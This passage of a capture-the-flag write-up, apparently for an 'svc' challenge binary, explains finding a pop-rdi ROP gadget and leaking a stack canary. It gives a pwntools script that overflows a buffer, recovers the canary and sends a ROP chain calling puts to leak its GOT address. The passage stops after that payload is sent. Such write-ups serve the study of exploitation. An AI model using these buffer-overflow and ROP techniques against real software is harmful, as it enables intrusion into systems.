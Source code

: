 ```
0x00000000004009fa : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
```

Looking through the list of ROPgadgets (using ROPgadget) we can see a gadget which will work for us. The gadget at `0x400ea3` will pop our argument into the `rdi` register, then return which will allow us to call puts with an argument of our choice.

So now that we have the three pieces we need, we can call puts. When we look at the stack in IDA, we can see that the stack canary is stored at `rbp-0x0`. We can also see that the return address is stored at `rbp+0x8`. So we will need to have 8 bytes of filler after our canary to reach the return address, then we can write our rop gadget address followed by the got and the plt addresses for puts. Also we will need to rewrite the stack canary, since we did overwrite the null byte in it with a newline character. Here is the code for that (it is modified from the previous script).

```
#Import pwntools
from pwn import *

#Establish the target process, and attack gdb
target = process("./svc")
gdb.attach(target)
elf = ELF('svc')

#Establish the needed addresses
puts_got = 0x602018
puts_plt = 0x4008d0
gadget = 0x400ea3

log.info("puts_got is: " + hex(puts_got))
log.info("puts_plt is: " + hex(puts_plt))
log.info("gadget addr: " + hex(gadget))

#Specify that the menu option to scan in data into memory
print target.recvuntil(">>")
target.sendline('1')
print target.recvuntil(">>")

#Send the payload, which will allow us to leak the canary
leak_payload = "0"*0xa8
target.sendline(leak_payload)
print target.recvuntil(">>")

#Select the second option, to print out our input and leak the canary
target.sendline('2')
print target.recvuntil("[*]PLEASE TREAT HIM WELL.....")
print target.recvline()
print target.recvline()
print target.recvline()

#Scan in, parse out, unpack, and print the stack canary
leak = target.recvline()
print len(leak)
canary = u64("\x00" + leak[0:7])
log.info("The Stack Canary is: " + hex(canary))

#Specify that the menu option to scan in data into memory
print target.recvuntil(">>")
target.sendline('1')
print target.recvuntil(">>")

#Send the payload, which will allow us to leak the puts address
leak_payload = "0"*0xa8 + p64(canary) + "1"*8 + p64(gadget) + p64(puts_got) + p64(puts_plt)
target.sendline(leak_payload)
```